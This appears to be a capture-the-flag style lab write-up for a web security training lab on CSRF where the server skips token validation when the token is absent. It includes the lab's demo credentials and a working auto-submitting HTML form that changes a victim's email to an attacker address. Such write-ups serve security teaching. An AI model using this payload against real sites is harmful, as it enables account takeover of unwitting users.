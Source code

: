 # CSRF where token validation depends on token being present
# Objective
This lab's email change functionality is vulnerable to CSRF.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
Even though the website have `csrf` token website might not handle correctly the change email request without any token.

|![](Images/image-4.png)|
|:--:| 
| *Test of change email functionality* |

## CSRF Exploit
In order to solve the lab the following steps must be completed:
- Craft correct payload (below) - Craft POST request to `/my-account/change-email` without any `csrf` token
- `Store` it
- (Optional) Test it on yourselft - `View exploit`
- `Deliver exploit to victim`

All users have to have different emails addresses.

```html
<form method="POST" action="https://0aab008f040c98bd866f2a0b005800a5.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attackeremail@email.com">
</form>

<script>
        document.forms[0].submit();
</script>
```

![](Images/image-5.png)
